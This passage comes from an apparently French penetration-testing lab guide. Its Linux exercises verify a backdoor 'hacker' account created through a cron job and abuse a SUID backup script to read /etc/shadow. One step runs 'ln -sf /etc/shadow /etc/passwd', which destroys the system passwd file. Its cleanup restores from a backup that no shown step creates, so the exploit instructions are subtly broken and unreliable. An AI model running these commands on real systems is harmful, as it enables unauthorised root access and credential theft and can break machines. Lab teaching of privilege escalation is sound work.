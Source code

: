 2. Attendez que la tâche cron s'exécute (maximum 1 minute)

3. Vérifiez que l'utilisateur a été créé :
   ```bash
   grep hacker /etc/passwd
   ```

4. Connectez-vous en tant que nouvel utilisateur :
   ```bash
   su - hacker
   # Mot de passe: hacker123
   ```

5. Vérifiez les privilèges sudo :
   ```bash
   sudo -l
   ```

6. Restaurez le script original pour nettoyer :
   ```bash
   sudo cp /tmp/status.sh.bak /usr/local/bin/status.sh
   ```

#### Exercice 4: Exploitation via binaire SUID (10 minutes)

1. Examinez le binaire SUID découvert précédemment :
   ```bash
   ls -la /usr/local/bin/backup.sh
   cat /usr/local/bin/backup.sh
   ```

2. Exploitez le script SUID pour lire des fichiers sensibles :
   ```bash
   # Créez un lien symbolique vers un fichier sensible
   ln -sf /etc/shadow /etc/passwd
   
   # Exécutez le script SUID
   /usr/local/bin/backup.sh
   
   # Examinez l'archive créée
   tar -tvf /tmp/backup.tar.gz
   tar -xf /tmp/backup.tar.gz -C /tmp
   cat /tmp/etc/passwd
   ```

3. Restaurez le fichier passwd :
   ```bash
   # Supprimez le lien symbolique
   sudo rm /etc/passwd
   sudo cp /etc/passwd.bak /etc/passwd
   ```

### 6.3 Lab Windows 10 (45 minutes)

#### Exercice 1: Énumération initiale (10 minutes)

1. Connectez-vous à la machine Windows en tant qu'utilisateur `student`
